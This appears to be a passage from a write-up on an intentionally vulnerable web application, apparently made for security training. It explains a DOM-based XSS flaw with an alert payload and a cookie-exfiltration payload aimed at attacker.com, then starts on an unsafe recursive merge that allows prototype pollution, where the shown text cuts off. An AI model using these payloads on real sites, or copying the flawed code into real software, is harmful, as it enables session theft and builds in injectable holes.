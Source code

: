 ```javascript
      <h2 id="section-title">Welcome</h2>
      <div id="content">
        <p>Select a section from the URL hash to view documentation.</p>
        <p>Example: <code>#authentication</code>, <code>#endpoints</code>, etc.</p>
      </div>
    </body>
    </html>
  `;
  
  res.setHeader('Content-Type', 'text/html');
  return res.status(200).send(htmlContent);
});
```

### Technical Details

- **Root Cause**: User-controlled URL fragment (#hash) directly inserted into innerHTML
- **Vulnerability Pattern**: Unsafe DOM manipulation without sanitization
- **Impact**: Allows execution of arbitrary JavaScript in the context of the page

### Exploitation

1. **Craft a malicious URL with an XSS payload in the fragment**:
   ```
   https://example.com/api/documentation#<img src=x onerror=alert(document.cookie)>
   ```

2. **How it works**:
   - The URL fragment is not sent to the server, so server-side protections don't apply
   - When the page loads, JavaScript reads `window.location.hash`
   - The payload is directly inserted into the DOM via `innerHTML`
   - The browser parses the injected HTML and executes the JavaScript

3. **Advanced exploitation**: Data exfiltration
   ```html
   #<img src=x onerror="fetch('https://attacker.com/steal?cookie='+document.cookie)">
   ```

---

## Vulnerability #4: Prototype Pollution

### Vulnerable Code: Unsafe Object Merging

```javascript
// Prototype pollution vulnerability - PRESERVED BY DESIGN
app.post('/api/merge-settings', verifyToken, (req, res) => {
  const userSettings = req.body;
  
  // Get current user settings from database
  db.get('SELECT settings FROM user_settings WHERE user_id = ?', [req.user.id], (err, row) => {
    let currentSettings = {};
    
    if (row && row.settings) {
      try {
        currentSettings = JSON.parse(row.settings);
      } catch (e) {
        console.error('Error parsing settings:', e);
      }
    }
    
    // VULNERABLE BY DESIGN: Unsafe recursive merge that allows prototype pollution
    function unsafeMerge(target, source) {
      for (const key in source) {
        if (source[key] && typeof source[key] === 'object') {
```